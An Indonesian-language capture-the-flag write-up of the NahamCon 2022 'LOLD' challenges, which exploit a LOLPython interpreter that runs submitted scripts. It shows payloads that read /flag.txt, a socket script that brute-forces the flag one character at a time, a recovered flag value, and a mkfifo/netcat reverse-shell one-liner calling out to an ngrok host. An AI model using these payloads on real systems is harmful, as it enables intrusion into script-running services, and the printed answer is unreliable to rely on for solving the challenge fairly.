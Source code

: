 # LOLD
#easy #medium #hard #python

## Target
Source code: [attachment-lolpython](attachment-lolpython.md)

Untuk menyelesaikan tantangan ini, kita (lagi-lagi) perlu membaca [dokumentasi](https://github.com/KartikTalwar/LOLPython/blob/master/LOLPython.py) software.

Di dalam dokumentasi tersebut terdapat contoh penggunaan untuk menghitung deret bilangan fibonacci:
```python
from datetime import date as DATE 

def FIBBING ( N ) :
    'ITERATE FIBONACCI TERMS LESS THAN N' 
    assert N >= 0 
    # BTW, FIBONACCI LIKE BUNNIES! LOL
    yield 1 
    yield 1 
    I = 1 
    HE = 1 
    while 1:
	I , HE = HE , I + HE 
	if HE >= N :
	    break 
	yield HE 

if __name__ == '__main__' :
    print >>_lol_sys.stderr, 'NOW IZ' , DATE . today ()
    if len(_lol_sys.argv) == 1 :
	N = 100 
    else :
	N = int(_lol_sys.argv[ 1 ]) 
    for I in FIBBING ( N ) :
	print I 
```

```python
IN MAI datetime GIMME date LIKE DATE

SO IM LIKE FIBBING WIT N OK?
    LOL ITERATE FIBONACCI TERMS LESS THAN N /LOL
    SO GOOD N BIG LIKE EASTERBUNNY
    BTW, FIBONACCI LIKE BUNNIES! LOL
    U BORROW CHEEZBURGER
    U BORROW CHEEZBURGER
    I CAN HAZ CHEEZBURGER
    HE CAN HAZ CHEEZBURGER
    WHILE I CUTE?
	I AND HE CAN HAZ HE AND I ALONG WITH HE
	IZ HE BIG LIKE N?
	    KTHXBYE
	U BORROW HE

IZ __name__ KINDA LIKE "__main__"?
    COMPLAIN "NOW IZ" AND DATE OWN today THING
    IZ BIGNESS ARGZ OK KINDA LIKE 1?
	N CAN HAS 100
    NOPE?
	N CAN HAS NUMBR ARGZ LOOK AT 1!!
    GIMME EACH I IN UR FIBBING WIT N OK?
	VISIBLE I
```

## LOLD
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT `/flag.txt`.

- Percobaan gagal running script di lolpython
![](attachments/Pasted%20image%2020220505135001.png)

- Percobaan berhasil running script `print("abc")` di lolpython
![](attachments/Pasted%20image%2020220505135043.png)

- Kita mengetahui bahwa lokasi flag ada di /flag.txt, kita bisa membuat oneliner python:
```python
with open('/flag.txt') as BALD: print (BALD.read())
```

- Secara manual, kita convert code tersebut menggunakan syntax lolpython.
```python
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT BALD OWN read THING !
```

- Untuk mengetes kebenarannya, bisa dicoba secara local terlebih dahulu atau menggunakan `--convert`
```sh
python2 lolpython.py testfile # untuk mencoba menjalankan

python2 lolpython.py testfile --convert # untuk mencoba convert
```

- Dicoba  
![](attachments/Pasted%20image%2020220505134904.png)

## LOLD2
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT `/flag.txt`!

- Percobaan running script di Python
![](attachments/Pasted%20image%2020220505141308.png)
![](attachments/Pasted%20image%2020220505141326.png)

- Ternyata, apabila berhasil, output yang dikeluarkan adalah `I RAN IT HURRAYYYY!!!`. Kita bisa membuat one liner python untuk menanyakan pertanyaan benar dan salah.
```python
# menanyakan apakah huruf pertama adalah f
with open("/flag.txt") as BALD :   print("WAKAKA")  if BALD . read()[0] == "f" else WAKAKA
```

- Convert ke versi lolpython
```python
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "WAKAKA" ! IZ BALD OWN read THING LET THE  EASTERBUNNY OK KINDA LIKE "f" NOPE WAKAKA
```

- Jika benar
![](attachments/Pasted%20image%2020220505141824.png)

- Coba kita tanyakan apakah huruf pertama adalah c
```python
# menanyakan apakah huruf pertama adalah c
with open("/flag.txt") as BALD :   print("WAKAKA")  if BALD . read()[0] == "c" else WAKAKA

# versi lolpython
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "WAKAKA" ! IZ BALD OWN read THING LET THE  EASTERBUNNY OK KINDA LIKE "c" NOPE WAKAKA
```

- Jika salah
![](attachments/Pasted%20image%2020220505142215.png)

- Kita mengetahui jawaban benar dan salahnya, kemudian format flag adalah `flag{md5}`. Kita bisa buat script untuk menanyakan karakter satu persatu.
```python
#!/usr/bin/env python3

import socket;
import time;

# nc challenge.nahamcon.com 32341
flag_backup = 'flag{da682dec4bbcad7437bbb875266fda51}'
flag = ''
hostname = "challenge.nahamcon.com"
port = 32341

def netcat(hostname, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    data = s.recv(4096)
    data = s.recv(4096)
    time.sleep(0.5)
    s.sendall(content.encode())
    data = s.recv(4096)
    # print(repr(data.decode()))
    return repr(data.decode())

payloads = [
"f","l","a","g","{",
"0",
"1",
"2",
"3",
"4",
"5",
"6",
"7",
"8",
"9",
"a",
"b",
"c",
"d",
"e",
"f",
"error"
]

for i in range (0, 100) :
    content = 'WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "wakak" ! IZ BALD OWN read THING LET THE ' + str(i) +  ' OK KINDA LIKE "}" NOPE WAKAKA'
    if netcat(hostname, port, content)[1] != 'E':
        flag += '}'
        break
    else: 
        for payload in payloads :
            # print(payload)
            content = f'WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "wakak" ! IZ BALD OWN read THING LET THE {i} OK KINDA LIKE "{payload}" NOPE WAKAKA'
            # print(content)
            if netcat(hostname, port, content)[1] != 'E':
                flag += payload
                print(flag)
                break
            if payload == "error":
                print(flag)
                raise Exception

print(flag)
```

- Jalankan  
![](attachments/Pasted%20image%2020220505143336.png)

## LOLD2, cara lebih mudah
Saat menyelesaikan CTF, kita tidak gunakan ini. Kirain hanya bisa masukin one liner python aja :)

- lolpython untuk reverse shell
```python3
GIMME os
os OWN system WIT "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 2.tcp.ngrok.io 19742 >/tmp/f" OK
```

- Set up netcat listener
```sh
nc -lnvp 4444
```

- Eksekusi di remote machine
```python
cat lol-reverse | nc challenge.nahamcon.com 32659
```

![](attachments/Pasted%20image%2020220505144119.png)

## LOLD3
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!!

- Dengan cara LOLD2 di atas untuk membentuk reverse shell, sekarang kita bisa cari flagnya dengan `find`
![](attachments/Pasted%20image%2020220505144450.png)

## Source
https://jorianwoltjer.com/blog/post/ctf/nahamcon-ctf-2022/lold

